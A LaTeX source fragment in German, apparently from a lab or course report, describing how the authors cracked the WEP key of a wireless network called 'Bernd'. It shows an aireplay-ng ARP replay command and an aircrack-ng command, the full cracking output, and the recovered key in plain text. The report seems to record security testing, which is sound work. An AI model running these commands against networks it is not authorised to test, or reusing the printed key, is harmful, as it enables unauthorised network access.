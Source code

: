\documentclass[10pt,a4paper]{article}
\begin{document}
Um die Menge an beobachteten Packeten zu erhöhen fuhren wir eine ARP Replayattacke. Dabei wird jedes abgefangene Packet wieder in das Netzwerk eingespielt.
\begin{verbatim}
aireplay-ng -3 -b 64:70:02:1A:B1:81 -h 00:C0:CA:55:54:5F wlan1
\end{verbatim}
Nach circa 10 Minuten Packete mitschneiden knackten wir auf Basis der mitgeschnittenen Packete den WEP PreSharedKey:
\begin{verbatim}
aircrack-ng -b 64:70:02:1A:B1:81 output*.cap
\end{verbatim}
\begin{tiny}
\begin{verbatim}
                                                                 [00:00:00] Tested 835 keys (got 93526 IVs)

   KB    depth   byte(vote)
    0    0/ 25   71(122112) F5(107008) 3B(105216) 1B(103680) 94(103424) 90(103168) 3A(102656) A6(102656) 59(102400) CA(102400) 45(102144) 8B(101376) 9B(101120) 56(100864) 
    1    1/  1   E6(108288) 64(106496) 48(105472) 08(104960) 93(103936) 16(103424) 6B(103168) 92(102912) AA(102912) 74(102656) 56(102400) D9(102400) 9A(102144) 9F(102144) 
    2    0/  1   F9(131328) EF(108288) D0(107264) DF(107264) D2(105984) D9(105216) 02(104448) 7C(103936) E2(103168) 12(102912) C6(102912) 1A(102144) AB(102144) EA(102144) 
    3    0/  1   47(136960) 35(107776) 6B(106240) 74(106240) A2(106240) 08(105984) 70(104960) A3(104192) BE(103168) 22(102656) 31(102656) 87(102656) A8(102656) E8(102656) 
    4   14/  4   50(102144) 93(101632) 40(101120) B5(100864) 17(100608) 44(100608) 5B(100352) 75(100352) 18(100096) A3(100096) 55(99584) E3(99584) 26(99328) 65(99328) 

     KEY FOUND! [ 71:32:56:4E:4B:7A:31:47:73:52:71:59:41 ] (ASCII: q2VNKz1GsRqYA )
	Decrypted correctly: 100%
\end{verbatim}
\end{tiny}
Der verwendete WEP Key im Netzwerk Bernd lautet also: \texttt{q2VNKz1GsRqYA}.
\end{document}

